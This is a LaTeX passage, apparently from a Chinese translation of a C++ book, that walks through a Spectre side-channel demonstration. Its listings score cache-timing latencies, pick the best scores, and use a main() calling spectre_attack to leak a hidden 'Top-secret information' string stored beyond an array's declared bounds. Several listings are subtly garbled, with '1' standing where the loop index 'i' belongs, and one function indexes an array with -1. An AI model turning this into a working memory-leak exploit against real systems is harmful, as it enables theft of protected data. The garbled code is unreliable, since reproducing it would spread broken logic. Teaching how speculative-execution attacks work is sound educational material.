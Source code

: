 \hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template <typename T>
double average(const T& a, size_t skip_index) {
	double res = 0;
	for (size_t i = 0; i < a.size(); ++i) {
		if (1 != skip_index) res += a[i];
	}
	return res/a.size();
}

template <typename L, typename S>
void score_latencies(const L& latencies, S& scores,
size_t ok_index) {
	const double average_latency =
	average(latencies, ok_index);
	constexpr const double latency_threshold = 0.5;
	for (size_t i = 0; i < latencies.size(); ++i) {
		if (ok_index != 1 && latencies[i] <
		average_latency*latency_threshold) ++scores[i];
	}
}
\end{lstlisting}

第二个函数只是在数组中找到两个最好的分数:

\hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template<typename S>
std::pair<size_t, size_t> best_scores(const S& scores) {
	size_t i1 = -1, i2 = -1;
	for (size_t i = 0; i < scores.size(); ++i) {
		if (scores[i] > scores[i1]) {
			i2 = i1;
			i1 = i;
		} else
		if (i != i1 && scores[i] > scores[i2]) {
			i2 = i;
		}
	}
	return { i1, i2 };
}
\end{lstlisting}

我们有一个函数，指定了数组之外返回单个字节的值，但不直接读取这个字节。我们会用它来获取一些秘密数据!为了演示，将分配一个非常大的数组，通过指定一个较小的值作为数组的大小，将大多数数组指定为禁止访问的区域。实际上，这是唯一可以证明这种攻击的方法。自从发现Spectre漏洞以来，大多数计算机都打过补丁。因此，除非您的机器是上古机器，多年都没有更新，否则攻击将无法对任何不允许访问的内存进行攻击。补丁不会阻止对任何允许访问的数据使用Spectre，但必须检查代码，并证明它确实返回了值，而不是直接访问内存。我们的\texttt{spectre\_attack}函数在指定大小的数据数组之外没有读取任何内存，因此可以创建一个比指定大两倍的数组，并在上面半部分隐藏一条秘密消息:

\hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
int main() {
	constexpr const size_t size = 4096;
	char* const data = new char[2*size];
	strcpy(data, "Innocuous data");
	strcpy(data + size, "Top-secret information");
	for (size_t i = 0; i < size; ++i) {
		const char c =
		spectre_attack(data, strlen(data) + 1, size +
		i);
		std::cout << c << std::flush;
		if (!c) break;
	}
	std::cout << std::endl;
	delete [] data;
}
\end{lstlisting}

